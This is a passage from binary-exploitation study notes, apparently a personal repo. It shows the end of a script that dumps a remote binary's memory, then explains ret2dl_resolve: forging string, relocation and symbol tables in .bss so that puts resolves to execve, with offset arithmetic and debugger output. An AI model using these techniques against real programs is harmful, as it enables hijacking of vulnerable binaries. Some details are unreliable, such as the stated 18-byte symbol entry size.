            r.close() 
            
        else:
            r.close()
    except:                                             
        print(sys.exc_info()[0])
        r.close()


file = []
offset = 0x7f                                           

for i in range(0x100):                      
    offset = leak_binary_write(i*offset,0x400000)
    print(f'{hex(i*offset)}')


string1 = b''.join(file)

with open('binary_dump', 'wb') as out:
    out.write(string1)
    out.close()

```

</div>
</details>


# ret2dl_resolve

<details>
    <summary>how _dl_runtime_resolve works </summary>
        <div>
		
# how _dl_runtime_resolve works

```
_dl_runtime_resolve(elf_info , index )
				|
				|
  ------------------------------
  |
  |	 ___________________          ___________________          ___________________
  |	| Relocation table  |        |   Symbol table    |        |   String table    |
  |	|_____rel.plt_______|        |_____.dynsym_______|        |______.dynstr______|
  |	|       ...         |        |       ...         |        |       ...         |
  |	|___________________|        |___________________|        |___________________|
  >>>>>>|      r_offset     |        |      st_name      |        |      read\0       |
	|___________________|        |___________________|        |___________________|
	|      r_info       | ____   |      st_info      |        |       ...         |
	|___________________|     |  |___________________|        |___________________|
	|       ...         |     |  |        ...        |    |>>>|      puts\0       |
	|___________________|     |  |___________________|    |   |___________________|
	|      r_offset     |     |  |      st_name      | ___|   |       ...         |
	|___________________|     |  |___________________|        |___________________|
	|      r_info       |     >>>|      st_info      |        |                   |
	|___________________|        |___________________|        |___________________|

```
		
so first we enter the call to puts.

since this is the first call to puts it is not binded we need to setup the arguments for _dl_runtime_resolve(elf_info , index )

pushes the index in this case 0x0       \
```
	0x401030                  endbr64        
 →   0x401034                  push   0x0       
     0x401039                  bnd    jmp 0x401020      
```
pushes the elf_info 0x404008:	0x00007ffff7ffe190       \
```
→   0x401020                  push   QWORD PTR [rip+0x2fe2]        # 0x404008       
     0x401026                  bnd    jmp QWORD PTR [rip+0x2fe3]        # 0x404010       
     0x40102d                  nop    DWORD PTR [rax]       
```
than we look into the rel.plt        

we pushed 0 so we look at the first entry of the Relocation table and find the r_info holding 100000007h for now we only care about the 1 which is the offset for the Symbol table       
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2dl_resolve/Relocation_table.png">

in the Symbole table we look at offset 1 and find the st_name which holds the offset 10h
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2dl_resolve/Symbole_table.png">
		
in the String table we look at ofset 10h and find the string puts
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2dl_resolve/String_Table.png">


</div>
</details>




<details>
    <summary>ret2dl_resolve method 1. (PIE is off // RELRO off)</summary>
        <div>
		
# ret2dl_resolve method 1. (PIE is off // RELRO off)

Prerequisites
1. IP controll
2. ability to write to memory

in the .dynamic section there is a pointer to the String table .dynstr if RELRO is off this section is actually writeable we can change the pointer to.
if we cange d_val to a section in the .bss we can basically write our own String table there and simply could replace puts with execve.


```
 ___________________      ___________________ 
|   Symbole table   |    |    String table   | <<<______
|______.dynsym______|    |______.dynstr______|          |
|        ...        |    |        ...        |          |
|___________________|    |___________________|          |
|       st_name     |_   |       read\0      |          |
|___________________| |  |___________________|          |
|       st_info     | |>>|       puts\0      |          |
|___________________| .  |___________________|          |
        ...............                .................|_______
	.	 ___________________   .  ___________________   |
	.	|   Writeable area  |<<. |      .dynamic     |  |
	.	|________.bss_______|    |___________________|  |
	.	|        ...        |    |        ...        |  |
	.	|___________________|    |___________________|  |
	.	|       read\0      |    |  d_tag: DT_STRTAB |  |
	.	|___________________|    |___________________|  |
	.....>>>|       execve\0    |    |       d_val       |__|
		|___________________|    |___________________|

```
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2dl_resolve/nRELROdynamicSection.png">		
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2dl_resolve/dynstr.png">

</div>
</details>


<details>
    <summary>ret2dl_resolve method 2. (PIE is off// partial RELRO)</summary>
        <div>

# ret2dl_resolve method 2. (PIE is off// partial RELRO)


Prerequisites
1. IP controll
2. ability to write to memory

```
  [ 6] .dynsym     00000000004003c0  symbole table
  [ 7] .dynstr     0000000000400438  string table
  [11] .rela.plt   00000000004004d8  relocation table
  [22] .dynamic    0000000000403e20  dynamic section
  [24] .got.plt    0000000000404000  GOT
  [26] .bss        0000000000404038  .bss we can write here

```

we can create a fake .rel.plt entry in the .bss and pass a huge index to _dl_runtime_resolve(elf_info,index)

<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2dl_resolve/relplt.png">

we set 0x1A6 as index.   \
runtime_resolve would than look for the .rel.plt entry @ 0x404038 which is in .bss we have controll over and can place a fake .rel.plt struct here that contains the fake r_info.   
		
each .rel.plt entry is 24 bytes in size.    	
		
```
addr_fake_struct - addr_of_.rel.plt = byte_offset / 24 = index_offset 
0x404038 - 0x4004d8 = 0x3B60/24 = 0x1A6   
```

<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2dl_resolve/dynsym.png">
we set our fake r_info to 0x286 and place our fake .dynsym struct that contains the fake st_name entry directly under our fake .rel.plt struct   /

each .dynsym entry is 18 bytes in size 
		
```
(addr_fake_struct + offset_fake_dynsym) - addr_of_.dynsym = byte_offset / 18 = r_info_offset 
(0x404038+24) - 0x04003c0     				#+24 cause our fake_.rel.plt is 24 bytes
0x404050 - 0x04003c0 = 0x3c90/18 = 0x286    
```	

here we set the st_name offset to 0x3c2a.    \
starting @ 0x400438 to our fake string @ 0x404062    
```
(addr_fake_struct + offset_fake_dynsym + offset_fake_dynstr) - addr_of_.dynstr = st_name 
(0x404038+24+18) - 0x400438    
0x404062 - 0x400438 = 0x3c2a    
```
and as last step we set what libc function we want to resolve into our fake .dynstr entry @ 0x404062



```
_dl_runtime_resolve(elf_info , index)
				|  
                       _________|                   
 ___________________  |           
| Relocation table  | |        
|______.rel.plt_____| |               
|        ...        | |               
|___________________| |               
|       r_offset    | |               
|___________________| |               
|       r_info      |<|               
|___________________| .     
                      .
                      ..........
	 ___________________   .
	|    Writable area  |  .
	|________.bss_______|  .
	|      r_offset     |  .
	|___________________|  .
 .......|      r_info       |<..
 .	|___________________|
 .      |        ...        |
 .      |___________________|
 .	|      st_name      |
 .	|___________________|
 .....>>|      st_info      |...   
	|___________________|  . 
	|        ...        |  . 
	|___________________|  . 
	|      execve\0     |<<. 
	|___________________|


```
This aproach will not work allways:
If the Dynamic loader checks the boundaries.
If symbol versioning and huge pages are enabled. 


</div>
</details>


	
	
<details>
    <summary>ret2dl_resolve method 3. (PIE is off//partial RELRO)</summary>
        <div>
		
# ret2dl_resolve method 3. (PIE is off//partial RELRO)

Prerequisites
1. IP controll
2. ability to write to an addr `*(destination) = value` 

`mov [rax],rdi`


3. ability to write to a pointer with an offset  `*(*(reg) + offset) = value`

```
mov rax, [rax]				#get the pointed addr into rax
mov [rax + rdx], rdi		#add rdx to pointed addr and mov rdi into it
```

elf_info points to a link_map struct    \
the link_map holds a pointer to the .dynstr table    \
the elf_info is allways available at a reserved GOT entry GOT[1]

this is like the first attack but we need a specific gadget to exploit this sucesfully.

we know the pointer to the link_map but we actually have to rewrite an entry in the link map.    \


```
gef➤  got

GOT protection: No RelRO | GOT functions: 3
 
[0x403368] puts@GLIBC_2.2.5  →  0x7ffff7e435a0
[0x403370] __stack_chk_fail@GLIBC_2.4  →  0x7ffff7eeeb00
[0x403378] gets@GLIBC_2.2.5  →  0x7ffff7e42af0

```

```
gef➤  tel 0x403368-32
0x0000000000403348│+0x0000: 0x0000000000000000
0x0000000000403350│+0x0008: 0x0000000000403160  →  0x0000000000000001            #pointer to link_map struct
0x0000000000403358│+0x0010: 0x0000000000000000
0x0000000000403360│+0x0018: 0x0000000000000000
0x0000000000403368│+0x0020: 0x00007ffff7e435a0  →  <puts+0> endbr64 
0x0000000000403370│+0x0028: 0x00007ffff7eeeb00  →  <__stack_chk_fail+0> endbr64 
0x0000000000403378│+0x0030: 0x00007ffff7e42af0  →  <gets+0> endbr64 
0x0000000000403380│+0x0038: 0x00007ffff7de2fc0  →  <__libc_start_main+0> endbr64 
0x0000000000403388│+0x0040: 0x0000000000000000
0x0000000000403390│+0x0048: 0x0000000000000000
```

```
gef➤  tel 20 0x0000000000403160
0x0000000000403160│+0x0000: 0x0000000000000001
0x0000000000403168│+0x0008: 0x0000000000000001
0x0000000000403170│+0x0010: 0x000000000000000c
0x0000000000403178│+0x0018: 0x0000000000401000  →  <_init+0> endbr64 
0x0000000000403180│+0x0020: 0x000000000000000d
0x0000000000403188│+0x0028: 0x0000000000401248  →  <_fini+0> endbr64 
0x0000000000403190│+0x0030: 0x0000000000000019
0x0000000000403198│+0x0038: 0x0000000000403150  →  0x0000000000401170  →  <frame_dummy+0> endbr64 
0x00000000004031a0│+0x0040: 0x000000000000001b
0x00000000004031a8│+0x0048: 0x0000000000000008
0x00000000004031b0│+0x0050: 0x000000000000001a
0x00000000004031b8│+0x0058: 0x0000000000403158  →  0x0000000000401140  →  <_do_global_dtors_aux+0> endbr64 
0x00000000004031c0│+0x0060: 0x000000000000001c
0x00000000004031c8│+0x0068: 0x0000000000000008
0x00000000004031d0│+0x0070: 0x000000006ffffef5
0x00000000004031d8│+0x0078: 0x0000000000400368  →  0x0000000100000001
0x00000000004031e0│+0x0080: 0x0000000000000005
0x00000000004031e8│+0x0088: 0x0000000000400418  →  0x6f732e6362696c00		#this it the pointer to .dynstr
0x00000000004031f0│+0x0090: 0x0000000000000006
0x00000000004031f8│+0x0098: 0x0000000000400388  →  0x0000000000000000
```

it is writable
```
gef➤  vmmap 0x00000000004031e8
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x0000000000403000 0x0000000000404000 0x0000000000002000 rw- /home/bex/Desktop/PWN Guide/ret2dlsrc/a.out

```




``` 
         ___________________       ___________________
	|        GOT        |  |>>|    String table   |
	|______.plt.got_____|  |>>|______.dynstr______| 
	|        got[0]     |  |  |        ...        |  
	|___________________|  |  |___________________|  
	|        got[1]     |  |  |       read\0      | 
 |------|___________________|  |  |___________________| 
 |	|        got[2]     |  |  |       puts\0      | 
 |	|___________________|  |  |___________________|
 |                             |
 |	 ___________________   |   ___________________  
 |	|                   |  |.>|  Writable area    |  
 |	|___________________|  |.>|___________________|  
 |	|        ...        |  |. |        ...        |  
 |	|___________________|  |. |___________________|  
 |	|  l_info[DT_HASH]  |  |. |       read\0      |  
 |	|___________________|  |. |___________________|  
 |---->>| l_info[DT_STRTAB] |--|. |       execve\0    |
	|___________________|     |___________________|
	| l_info[DT_SYMTAB] |
	|___________________|

```
</div>
</details>


		
	
<details>
    <summary>ret2dl_resolve method 4. (PIE is off//full RELRO)</summary>
        <div>
		
# ret2dl_resolve method 4. (PIE is off//full RELRO)
		
in this methode we use a debugging feature DT_DEBUG in the .dynamic section that points to a debugger data struct. (it is used by e.g. gdb to track loading of new librarys)

this DT_DEBUG data struct also holds a pointer to the link_map

but we still have to find the dl_runtime_resolve() cause the reserved GOT entry for it is gone as well as the elf_info link_map reserver GOT

the link_map is part of a linked list.
If we go to the next entry in the liniked list 


Prerequisites
1. IP controll
2. ability to write to an addr `*(destination) = value` 

`mov [rax],rdi`


3. ability to write to a pointer with an offset  `*(*(rax) + offset) = value`


```
mov rax, [rax]
mov [rax + offset],value
```

4. 

```
mov pointer, [pointer]
mov reg, [pointer + offset]
mov [destination], reg
```
5.
```
mov reg, [source]
mov [esp + offset], reg
```

```
     ___________________                     ___________________         ___________________ 
    |   Dynamic section |                   |       [HEAP]      |       |        GOT        |  
    |______.dynamic_____|                   |___________________|     |>|______.plt.got_____|    
    |        ...        |                   |         ...       |     | |       GOT[0]      |   
    |___________________|                   |___________________|     | |___________________|   
    |  d_tag: DT_DEBUG  |                   |      r_version    |     | |       GOT[1]      |      
    |___________________|                   |___________________|     | |___________________|      
    |       d_val       | ---------------->>|        r_map      |     | |       GOT[2]      |---_dl_runtime_resolve
    |___________________|                   |___________________|--|  | |___________________|    
    |        ...        |                   |         ...       |  |  | |       GOT[3]      | 
    |___________________|                   |___________________|  |  | |___________________|   
    |  d_tag: DT_STRTAB |           |-------|l_info [DT_STRTAB] |  |  | |        ...        |  
    |___________________|           | ......|___________________|  |  | |___________________|  
 ---|       d_val       |           | .     |         ...       |  |  |    
 |  |___________________|           | .     |___________________|  |  |   
 |                                  | .   --|       l_next      |<-|  |
 |                                  | .   | |___________________|     |
 |                                  | .   | |         ...       |     |
 |                                  | .   | |___________________|     |
 |                                  | .   |>| l_info[DT_PLTGOT] |-----|
 |                                  | .     |___________________|
 |   ___________________            | .
 ->>|    String table   |<<---------- .
    |______.dynstr______|              .
    |        ...        |               ................
    |___________________|        ___________________   .
    |       read\0      |       |    Writable area  |  .
    |___________________|       |________.bss_______|<<.
    |       puts\0      |<--    |        ...        |
    |___________________|  |    |___________________|
    |        ...        |  |    |       read\0      |
    |___________________|  |    |___________________|
                           |..>>|       execve\0    |
     ___________________   |.   |___________________| 
    |   Symbol table    |  |.  
    |______.dynsym______|  |.    
    |        ...        |  |.   
    |___________________|  |.   
    |      st_name      |--|.    
    |___________________| 
    |      st_info      |    
    |___________________|   
    |        ...        |    
    |___________________| 
```
IN PROGESS
		
		
		
</div>
</details>

# SROP
in progress
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/sigret_frame.png">
